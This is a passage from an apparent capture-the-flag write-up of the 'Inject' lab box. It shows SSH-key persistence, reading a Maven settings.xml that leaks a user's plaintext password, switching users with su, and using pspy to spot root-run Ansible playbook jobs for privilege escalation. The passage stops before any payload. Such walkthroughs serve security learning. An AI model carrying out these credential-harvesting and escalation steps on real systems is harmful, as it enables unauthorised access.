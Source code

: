 We can upgrade the shell by dropping our public key in a `authorized_keys` folder in `frank` home directory.

## Privilege Escalation

### Phil Credentials

Within `frank` home directory, we can find the credentials of the other user:

```
frank@inject:~$ cd .m2
frank@inject:~/.m2$ ls
settings.xml
frank@inject:~/.m2$ cat settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

With this, we can `su` to `phil`.

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Playbook PE

I ran a `pspy64` to see the processes being run by `root`. Here are some of the interesting lines seen:

```
2023/03/12 04:18:01 CMD: UID=0    PID=10333  | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/                  
2023/03/12 04:18:01 CMD: UID=0    PID=10332  | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml                                                      
2023/03/12 04:18:01 CMD: UID=0    PID=10331  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml                                                                     
2023/03/12 04:18:01 CMD: UID=0    PID=10335  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml 
```
